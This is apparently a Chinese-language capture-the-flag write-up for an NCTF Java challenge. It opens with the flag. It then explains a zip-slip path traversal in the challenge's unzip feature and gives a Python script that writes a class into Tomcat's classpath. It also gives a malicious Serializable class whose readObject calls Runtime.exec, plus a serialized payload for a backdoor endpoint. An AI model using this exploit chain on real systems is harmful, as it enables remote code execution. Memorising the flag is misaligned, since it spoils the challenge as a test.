 flag:

```
nctf{J3va_SecUrlt9_ls_T0o_DlfficuLT}
```

这个题其实也是一个在不支持jsp的情况下任意文件写的rce利用

前面部分先对代码进行审计，我们可以上传zip，然后在解压这里发现

![img](https://gitee.com/leonsec/images/raw/master/upload_d128c8da81c5c852f128bda937c166ab.png)

他没有对压缩包文件内的文件进行检查，这里就可以导致解压目录穿越。这里可以通过一个脚本去生成这样的zip：

```python
import zipfile
import os
 
if __name__ == "__main__":
    try:
        
        zipFile = zipfile.ZipFile("poc.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("poc.zip")
        zipFile.write("poc.class","../../usr/local/tomcat/webapps/html/WEB-INF/classes/com/x1c/nctf/Poc.class",zipfile.ZIP_DEFLATED)
        zipFile.close()
    except IOError as e:
        raise e
```

那么我们现在就相当与可以写入任意文件了。那么就是在spring boot运行时并且不支持jsp没有热部署的情况下要如何去rce的问题了(好像这里题目在重启的过程中jsp支持被打开了，X__X)

其实这里给了一个后门是用来反序列化，这里的提示其实很明显了，我们就可以把恶意类文件写入到classpath，如何通过反序列化去加载我们恶意类中重新的readObject方法，就可以达成rce。

题目给的附件是war，然后也有tomcat的路径可以很轻松的得到classpath，然后通过unzip把恶意类解压到classpath下，再通过后门的反序列化去触发即可。（这里一开始没给tomcat路径是因为tomcat的路径是默认的而且可以通过zip路由去确认是否存在该路径，但是一直没有解就当hint去提示师傅们了：）
exp:

```java
package com.x1c.nctf;

import java.io.*;
import java.io.Serializable;
import com.x1c.nctf.Tool.*;

public class Poc implements Serializable {
    public Poc() {
    }

    private void writeObject(ObjectInputStream out) throws IOException, ClassNotFoundException {
        out.defaultReadObject();
    }

    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        Runtime.getRuntime().exec("touch /tmp/1.txt");
    }

    public static void main(String[] args) throws Exception {
        Poc o = new Poc();
        System.out.println(Tool.base64Encode(Tool.serialize(o)));
    }
}
backdoor?cmd=rO0ABXNyABBjb20ueDFjLm5jdGYuUG9jLTxEyChKw8gCAAB4cA==
```
